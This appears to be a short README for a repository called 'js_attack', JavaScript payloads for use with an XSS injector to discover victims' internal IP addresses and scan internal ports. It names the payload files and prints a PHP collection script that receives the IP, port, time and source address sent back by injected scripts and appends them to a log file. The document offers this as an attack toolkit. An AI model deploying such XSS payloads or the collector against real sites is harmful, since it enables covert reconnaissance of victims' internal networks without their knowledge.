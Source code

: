 js_attack - some .js can use with xss injector
===================

Usage example
------------------

Get-Intranet-ip.js:
Scan-Intranet-port.js:
you can make a server to hand ip:
```
<?php
    date_default_timezone_set(PRC);
    $from = $_SERVER['REMOTE_ADDR'];
    $time = date("Y-m-d G:i:s");
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    file_put_contents('./webrtc_ip.txt', $ip.' | '.$port.' | '.$time.' | from '.$from."\r\n", FILE_APPEND);
?>
```

Author
------

Artem Kondratenko https://twitter.com/artkond


Credit
------
Repo is based on the following projects:

- https://github.com/diafygi/webrtc-ips


